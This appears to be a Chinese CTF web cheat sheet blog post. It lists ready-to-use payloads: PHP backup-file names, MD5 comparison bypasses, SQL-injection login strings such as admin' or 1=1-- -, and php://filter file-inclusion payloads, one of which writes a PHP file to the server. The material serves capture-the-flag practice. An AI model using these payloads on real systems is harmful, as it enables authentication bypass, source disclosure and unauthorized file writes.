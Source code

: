 ```yaml
---
layout: post
title: "CTF WEB 常见思路"
date: 2019-4-13 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: CTF WEB题中常见思路 
---
```

## php备份文件：
1.index.php.bak
2.index.php~
3.index.php.swp
## md5 比较  
### 弱比较：
md5弱比较，为0e开头的会被识别为科学记数法，结果均为0
#### 代码：
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-c5c805c77aab67ee.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/766/format/webp)
#### Payload：
param1=QNKCDZO&param2=aabg7XSs
### 强比较  ：
md5强比较，此时如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等
#### 代码：
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-e54981f5bd5f3c95.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/782/format/webp)
#### Payload：
param1[]=111&param2[]=222
## SQL注入万能密码
用户名：admin' or 1=1-- -
密码任意
用户名：admin '#
密码任意
## 文件包含
### 常见格式：  
http://119.23.73.3:5001/web8/index.php?file=flag.php
### php伪协议读源码
http://119.23.73.3:5001/web8/index.php?
file=php://filter/read=convert.base64-encode/resource=flag.php
### 利用php伪协议来写入文件
file=php://filter/write=convert.base64-decode/resource=./tmp.php&c=aPD9waHAgZWNobyhmaWxlX2dldF9jb250ZW50cygiZmxhZy5waHAiKSk7Pz4=
